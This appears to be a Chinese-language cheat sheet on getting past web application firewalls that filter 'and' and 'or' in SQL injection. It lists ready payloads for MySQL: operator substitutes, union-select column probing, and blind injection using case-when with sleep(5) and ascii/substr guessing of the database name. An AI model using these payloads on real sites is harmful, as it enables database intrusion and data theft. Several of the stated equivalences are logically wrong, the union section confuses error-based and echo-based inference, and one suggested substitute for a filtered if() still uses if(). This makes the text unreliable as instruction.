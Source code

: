 ### and or 被过滤怎么绕过

**1. 利用逻辑运算符的符号替代**

在某些情况下，WAF（Web Application Firewall）可能只过滤了关键字，而忽略了它们的符号表示

- **`&&` 替代 `and`：** 在 MySQL 中，`&&` 和 `and` 的功能相同。如果 `and` 被过滤，可以尝试使用 `&&`。
- **`||` 替代 `or`：** 同样，`||` 可以替代 `or` 来进行逻辑或操作。

**Payload 实例：**

- **原始注入：** `id=1 and 1=2`
- **绕过：** `id=1 && 1=2`

**2. 利用`!`、`<>`、`not` 等操作符**

通过巧妙地结合其他逻辑或比较操作符，我们可以构造出等价的判断逻辑

- **`and` 的替代：**
  - `if not (a=1) then ...` 等价于 `if a<>1 then ...`
  - 我们可以利用 `not` 或 `<>` 来否定条件，从而实现 `and` 的效果
  - **例如：** `username=admin' or not ('1'='1' and '1'='2')` 这句可以被改写为 `username=admin' or not (1=1)`，这在逻辑上是错误的，我们可以利用它来测试
  - **更具体的绕过：** `id=1 and 1=2` 可以被改写为 `id=1 or not 1=1`，这在布尔盲注中可以用来判断

**3. 利用`union select`进行盲注**

当布尔条件失效时，可以尝试使用 `union select` 来进行盲注

- **原理：**
  - 正常情况下，`union select` 需要前后两个查询的列数一致
  - 我们可以利用这一点，通过 `union select` 来注入一个不存在的列，从而触发数据库的报错，通过报错信息来判断
- **绕过方式：**
  - **首先，使用 `union` 探测列数。** `id=1 union select 1,2,3...`
  - **然后，利用列数来进行盲注。** `id=-1 union select 1, 2, user() like 'root%'` 如果页面正常回显，则说明 `user()` 以 `root` 开头。通过这种方式，可以逐字逐句地猜解数据

**4. 利用`if()`函数的替代品**

在布尔盲注中，`if()` 函数通常是不可或缺的。如果它和 `and` `or` 一起被过滤，那么需要寻找替代函数

- **`case when ... then ... end`：** 这是 `if()` 函数最常见的替代品，功能完全一样，且通常不会被过滤
  - **例如：** `id=1 and (case when 1=1 then sleep(5) else 0 end)`
  - **绕过：** `id=1 or (case when (database() like 'd%') then sleep(5) else 0 end)`
- **`greatest()` 和 `least()`：** 这两个函数返回一组值中的最大值和最小值。我们可以利用它们来构造条件判断
  - **例如：** `id=1 and greatest(1, (select if(1=1, 0, 1)))`
  - **绕过：** `id=1 or greatest(ascii(substr(database(),1,1)), 100)>100`

**5. 利用其他查询特性**

当所有常用方法都被过滤时，可以尝试利用一些非常规的查询特性

- **`having` 子句：** `having` 用于对 `group by` 的结果进行过滤。在一些情况下，`having` 后面可以接子查询，可以利用这一点进行注入
- **`limit offset`：** 我们可以通过 `limit` 和 `offset` 来逐行读取数据，再结合其他技术进行判断